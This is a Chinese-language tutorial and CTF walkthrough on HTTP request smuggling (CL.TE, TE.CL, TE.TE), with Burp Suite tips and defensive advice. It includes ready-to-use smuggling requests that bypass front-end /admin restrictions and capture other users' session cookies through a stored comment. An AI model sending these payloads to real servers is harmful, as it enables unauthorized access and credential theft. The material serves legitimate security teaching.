

# HTTP请求走私底层原理：CL.TE与TE.CL及TE.TE走私实战

---


> [!TIP] 🛠️ 工具实操指引：Burp Suite 极简安装与首个操作
> - **是什么**：Web 安全领域的“瑞士军刀”，能够作为 HTTP/HTTPS 中间人代理，拦截、篡改、重放和深度分析全部 Web 流量。
> - **怎么装**：
>   1. 官网下载 Burp Suite Community Edition（社区免费版，支持 Windows/macOS/Linux）；
>   2. 需预先安装 JDK 17+ 环境；双击安装包完成极简安装。
> - **第一个实操**：
>   1. 打开 Burp -> 进入 `Proxy` 标签页 -> 点击 `Open Browser`（使用内置已配好证书的 Chromium 浏览器）；
>   2. 浏览器地址栏输入目标网址，回到 Burp 的 `Proxy -> Intercept` 标签页，点击 `Intercept is on`，即可实时截获并手动修改 HTTP 数据包！

## 0. 基础前置知识扫盲：从生活比喻看“夹带私货”

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


很多初学者第一次听到“HTTP 请求走私（HTTP Request Smuggling）”这个词时，觉得它非常抽象：HTTP 只是文本协议，数据又不会长脚跑，怎么可能“走私”呢？

### 1. 通俗生活类比：高铁行李托运流水线
- **现代 Web 架构**：客户端发出请求，并不是直接连到运行业务代码的后端（如 Tomcat、Node.js），而是先经过**前端代理（如 CDN、Nginx、Cloudflare、负载均衡器）**，再由前端代理通过一条**复用的内部 TCP 长连接（HTTP Keep-Alive 管道）**批量转发给后端服务器。
- **生动比喻**：
  想象一个**高铁行李传送带**。每个乘客的包裹（HTTP 请求）依次放在传送带上。
  - **安检员（前端代理）**：根据每个包裹上贴的**尺寸标签（Content-Length）**，量好长度放行；
  - **分拣员（后端服务器）**：由于习惯不同，分拣员不看尺寸标签，专门看包裹上的**封箱胶带标记（Transfer-Encoding 分块结束符）**。
  - **漏洞发生时刻（走私成功）**：攻击者在包裹里贴了一个假的封箱胶带。分拣员以为包裹在中间就结束了，把包裹后半截留在了传送带上。
  - **受害者躺枪**：下一个无辜乘客放了一个新包裹上来，传送带把攻击者留下的半截恶意炸药和新包裹**无缝拼接在了一起**！分拣员误以为这个炸药是下一个乘客带的！



---

## 1. 请求边界判定机制：Content-Length vs Transfer-Encoding

在 HTTP/1.1 规范中，为了在同一个 TCP 连接上连续处理多个请求，必须明确**一个请求的数据在哪个字节结束，下一个请求在哪个字节开始**。系统依赖两个核心标头：

1. **`Content-Length` (CL)**：
   明确声明请求体（Body）的**绝对字节长度**（例如 `Content-Length: 13` 表示请求体刚好占 13 个字节）。
2. **`Transfer-Encoding: chunked` (TE)**：
   **分块传输编码**。请求体被划分为若干块，每个块由“十六进制块大小 + `\r\n` + 数据内容 + `\r\n`”组成，最后以 `0\r\n\r\n` 标志传输彻底结束。此时不需要 `Content-Length`。

### 规范冲突与漏洞根源（RFC 7230 第 3.3.3 条款）：
> **RFC 7230 明确规定**：若一个 HTTP 请求中同时包含了 `Content-Length` 和 `Transfer-Encoding`，服务器**必须优先处理 `Transfer-Encoding`**，而忽略 `Content-Length`。

**现实中的致命漏洞**：
并非所有代理软件或后端容器都严格遵循 RFC 规范！
- 有的服务器坚定认准 `Content-Length`；
- 有的服务器优先认准 `Transfer-Encoding`；
- 这种前后端**对同一份 HTTP 报文边界认知的巨大分歧**，就是“HTTP 请求走私”的根源。

---

## 2. 三大核心走私模型深度拆解与构造

### 2.1 CL.TE 漏洞模型（前端认 CL，后端认 TE）

- **环境特征**：前端代理只认 `Content-Length`，后端服务器支持并优先处理 `Transfer-Encoding: chunked`。

#### 攻击报文构造示例：
```http
POST / HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
*(注意：文本中包含回车换行 `\r\n`，`0\r\n\r\n` 占 5 个字节，`SMUGGLED` 占 8 个字节，总长度刚好为 13)*

#### 攻击解析过程：
1. **前端代理**：读取 `Content-Length: 13`，认为整个请求体刚好 13 字节，将整个数据完整转发给后端。
2. **后端服务器**：后端优先读取 `Transfer-Encoding: chunked`。当它读到第一行的 `0\r\n\r\n` 时，根据分块传输协议，**认为当前请求已经合法结束了**！
3. **走私达成**：后端立刻将当前请求处理并响应，而把剩下的 `SMUGGLED` 8 个字节留在了后端 TCP 连接的输入缓冲区中！
4. **下一个请求受害**：当下一个请求 `GET /index.html HTTP/1.1` 到达该 TCP 连接时，后端会直接将其拼在 `SMUGGLED` 后面，解析成了：
   `SMUGGLEDGET /index.html HTTP/1.1`
   导致后端返回 404 或未识别命令错误！

---

### 2.2 TE.CL 漏洞模型（前端认 TE，后端认 CL）

- **环境特征**：前端代理优先处理 `Transfer-Encoding: chunked`，后端服务器不理解分块传输或只读取 `Content-Length`。

#### 攻击报文构造示例：
```http
POST / HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### 攻击解析过程：
1. **前端代理**：看到 `Transfer-Encoding: chunked`，按照分块解析：
   - 块大小为十六进制 `5c`（92 字节）；
   - 一直读取到末尾的 `0\r\n\r\n`，确认分块结束，将完整内容转发给后端。
2. **后端服务器**：后端只认 `Content-Length: 4`！它仅读取前 4 个字节（即 `5c\r\n`），就认为请求已经结束！
3. **走私达成**：后半截完整的伪造请求 `GPOST /admin HTTP/1.1...` 残留在后端 TCP 缓冲区中，等待与下一个合法请求结合！

---

### 2.3 TE.TE 漏洞模型（标头混淆与解析器降级）

- **环境特征**：前端和后端虽然都宣称支持 `Transfer-Encoding: chunked`，但其中一方对不合规格式的容错性更强，或者一方存在解析缺陷，可以通过**标头混淆**迫使其中一方忽略 `Transfer-Encoding`，从而退化为 CL.TE 或 TE.CL 模型。

#### 常见混淆变异向量大全（PortSwigger 经典变形）：
```http
# 变异 1：大小写与空格混淆
Transfer-Encoding: chunked
Transfer-Encoding: cow

# 变异 2：头名称后追加制表符或空格 (RFC 违背)
Transfer-Encoding : chunked
Transfer-Encoding:[tab]chunked

# 变异 3：前导空格或非标准字符
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

# 变异 4：双写并引入垃圾字段
Transfer-Encoding: xchunked
```
若前端识别了被混淆的 `Transfer-Encoding`，而后端无法识别并忽略它（回退到 `Content-Length`），这就变成了 **TE.CL**；反之，若前端忽略而后台识别，则变成了 **CL.TE**。

---

## 3. 请求走私高阶危害与武器化利用实战

请求走私不仅能让服务器报错，更能产生灾难性的安全危害：

### 3.1 利用走私绕过前端访问控制（Bypass Front-End Security Controls）
- **防御机制**：很多企业架构中，前端代理配置了强访问控制规则（例如只允许特定 IP 访问 `/admin`，外部访问一律拦截返回 403）；而后端服务器信任来自前端代理的所有流量，不再做 IP 检查。
- **攻击实施**：
  攻击者利用 CL.TE 走私一个访问 `/admin` 的子请求：
  ```http
  POST /public HTTP/1.1
  Host: victim.com
  Content-Length: 37
  Transfer-Encoding: chunked

  0

  GET /admin HTTP/1.1
  X-Foo: x
  ```
  前端代理只看到了对 `/public` 的合法访问，放行；
  后端服务器接收到后，下一个到达的请求被拼接到 `X-Foo: x` 头部下方，后端实际上处理了一个发向 `/admin` 的完整内部请求，轻松绕过前端访问控制！

### 3.2 截获其他合法用户的请求与敏感凭据（Stealing Other Users' Requests）
如果后端应用存在任意用户评论、或者反馈表单接口（参数中的内容会持久化存储并在页面中展示）：
```http
POST / HTTP/1.1
Host: victim.com
Content-Length: 260
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: victim.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 600
Cookie: session=attacker_cookie

comment=leaked_data: 
```
**致命攻击链**：
1. 攻击者走私了一个提交评论的 POST 请求，故意将 `Content-Length` 设得非常大（如 `600`）；
2. 下一个受害者正常访问任何页面（携带了带有用户身份的 `Cookie: session=victim_secret_token` 和各类私密 Header）；
3. 后端将受害者的整个 HTTP 请求当成了评论的内容（`comment=leaked_data: GET /account... Cookie:...`）直接写入了数据库！
4. 攻击者刷新评论区，直接当场窃取受害者的明文 Session Cookie！

---

## 4. Burp Suite 实战复现与避坑核心指南

进行请求走私漏洞测试时，稍有不慎就会失败。初学者必须牢记以下核心要领：

### 避坑黄金法则：
1. **必须关闭 Burp Repeater 的自动更新 Content-Length**：
   - 路径：在 Burp Suite Repeater 选项中，取消勾选 **“Update Content-Length”**。
   - 原因：手工走私的核心就是要**故意制造错误的 Content-Length**，如果 Burp 每次自动帮你纠正长度，走私将 100% 失败！
2. **严格注意 `\r\n`（回车换行符）**：
   - HTTP 协议中的换行是 2 个字节（`\r\n`，十六进制为 `0d 0a`），而不是普通的 `\n`。计算字节长度时必须将 `\r\n` 精确计算在内。
3. **使用 HTTP Request Smuggler 官方插件**：
   - 在 Burp BApp Store 中安装 PortSwigger 官方插件 **HTTP Request Smuggler**。
   - 插件能够自动发送延迟测试包（Timing Attack）并快速检测出前后端到底是 CL.TE 还是 TE.CL。

---

## 5. CTF 真实赛题全流程实战还原

### 题目说明：
- 某全国大学生网络安全大赛 Web 题目；
- 目标系统前端使用 HAProxy 1.5.18（支持 CL，但存在 TE 解析缺陷），后端使用 Gunicorn 19.3.0（优先支持 TE）；
- 挑战目标：读取只能由本地 `127.0.0.1` 访问的内部敏感管理接口 `/api/flag`。

### 突破攻击过程：

#### 步骤 1：探测走私模型
在 Burp Repeater 中发送包含延时验证的 CL.TE 数据包：
```http
POST / HTTP/1.1
Host: ctf.challenge.site
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
若前端认 CL（长度为 6，包含 `0\r\n\r\nX`），而后台认 TE（一直在等待分块结束标记），连接出现长达 10 秒的超时挂起响应，确认为 **CL.TE 走私模型**！

#### 步骤 2：构造精准走私请求
```http
POST / HTTP/1.1
Host: ctf.challenge.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Transfer-Encoding: chunked

0

GET /api/flag HTTP/1.1
Host: 127.0.0.1
X-Ignore: 
```

#### 步骤 3：连续发包捕获 Flag
连续发送两次上述请求：
- 第一次发送：成功将 `GET /api/flag HTTP/1.1` 走私至后端 Gunicorn 的 TCP 缓冲区；
- 第二次发送：第二个请求的前半段被作为 `X-Ignore: ` 的头部值丢弃，Gunicorn 优先响应了走私请求，成功绕过前端 IP 白名单限制，从回显中返回：
  `HTTP/1.1 200 OK`
  `{"status": "success", "flag": "flag{HTTP_R3quest_Smuggl1ng_HAPr0xy_Pwned}"}`！

---

## 6. 纵深防御与系统架构整改建议

1. **全面升级通信协议至 HTTP/2（端到端）**：
   - HTTP/2 采用基于二进制帧（Binary Framing）的设计，拥有明确的帧长度字段，从协议根本上废弃了基于文本边界的 `Content-Length` 和 `Transfer-Encoding` 逻辑，杜绝了歧义。
   - **注意**：前端和后端之间必须均使用 HTTP/2；如果前端用 HTTP/2，但向后端转发时降级（Downgrade）为 HTTP/1.1，依然可能引发新型 H2.CL 走私！
2. **规范化并严格校验输入标头**：
   - 前端代理对于同时存在 `Content-Length` 和 `Transfer-Encoding` 的请求，直接返回 `400 Bad Request` 丢弃，坚决不予转发。
3. **禁用后端连接复用（Disable Keep-Alive Connection Reuse）**：
   - 前端代理到后端服务器之间不复用 TCP 连接，每一个外部请求对应一条独立的后端 TCP 连接。虽然会略微增加握手开销，但能够彻底消除跨请求拼接污染的条件。
